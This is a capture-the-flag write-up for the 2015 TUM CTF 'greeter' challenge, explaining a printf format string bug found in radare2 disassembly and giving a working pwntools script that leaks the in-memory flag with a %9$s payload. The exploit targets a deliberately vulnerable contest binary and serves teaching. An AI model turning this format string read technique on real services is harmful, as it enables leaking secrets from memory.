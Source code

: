 # TUM CTF Teaser 2015: greeter

**Category:** Pwn
**Points:** 15
**Solves:** 36
**Description:**

> Baby's 1st
> 
> [greeter](greeter)
> 
> nc 1.ctf.link 1030


## Write-up

by [f0rki](https://github.com/f0rki)

This was the first challenge in the pwn category and was pretty easy to solve.
The service asks us for our name and then tells us to pwn harder.

```
Hi, what's your name?
adsfasdf
Pwn harder, asdfasdf!
```

After a quick look at the disassembly with [radare2](http://radare.org/r/)
wee can see that there are two consecutive
calls to `printf` to print the `Pwn harder, $name!` string. 

```
0x004006d1    bf9f084000     mov edi, str._e_34mPwn_harder_ ; str._e_34mPwn_harder_ ; greeter.c:29  
0x004006d6    31c0           xor eax, eax
0x004006d8    e8c3feffff     call sym.imp.printf
0x004006dd    4889df         mov rdi, rbx                  ; greeter.c:30  
0x004006e0    31c0           xor eax, eax
0x004006e2    e8b9feffff     call sym.imp.printf
0x004006e7    bfb1084000     mov edi, str.__e_0m           ; "!.[0m" @ 0x4008b1 ; greeter.c:31  
0x004006ec    e87ffeffff     call sym.imp.puts
```

And the format string argument seems to be something non-constant. This smells
like a format string vulnerability.
```
Hi, what's your name?
%x 
Pwn harder, 60be2f50!
```

Yes! So we have a pretty straight forward format string vulnerability. At the start
of the `main` function we have code that reads the flag.txt file and stores it
at a location which is apparently not randomized by ASLR.
```
0x00400619    bf96084000     mov edi, str.flag.txt         ; "flag.txt" @ 0x400896
0x0040061e    e8bdffffff     call sym.imp.fopen
0x00400623    4885c0         test rax, rax
0x00400626    0f84d8000000   je 0x400704                  
0x0040062c    4889c2         mov rdx, rax                  ; greeter.c:18  
0x0040062f    be00010000     mov esi, 0x100
0x00400634    bfa00c6000     mov edi, obj.flag             ; obj.flag
0x00400639    4889c5         mov rbp, rax
0x0040063c    e87fffffff     call sym.imp.fgets
```

So we now have to craft a format string that prints the flag. So we add the 
address of the flag object to our format string and use the `%N$s` format 
specifier to directly access the N'th argument, to get to the address of flag. 
After playing around with  the format string a little bit, I got the flag 
`hxp{f0rm4t_sTr1ngs_r0ck}`.
Here is the script I used.

```python
from pwn import *  # NOQA

context.log_level = 'debug'

p = remote("1.ctf.link", 1030)
#p = process("./greeter")
velf = ELF("./greeter")
flagaddr = velf.symbols["flag"]
log.info("Flag addr = 0x{:x}".format(flagaddr))

#fmtstr = ""
fmtstr = "AAAA" * 2
fmtstr += r"%9$s"
fmtstr += "BBBB"
#fmtstr += r"%9$x"
fmtstr += p64(flagaddr)
fmtstr += p64(flagaddr)
fmtstr += p64(flagaddr)

p.recvline()
p.sendline(fmtstr)
line = p.recv()
log.info(line)
m = re.search("(hxp{.*})", line)
if m:
    log.info("found flag: " + m.groups()[0])
p.clean_and_log()
```

## Other write-ups and resources

* <https://github.com/ByteBandits/writeups/blob/master/tum-ctf-teaser-2015/pwn/greeter/sudhackar/README.md>
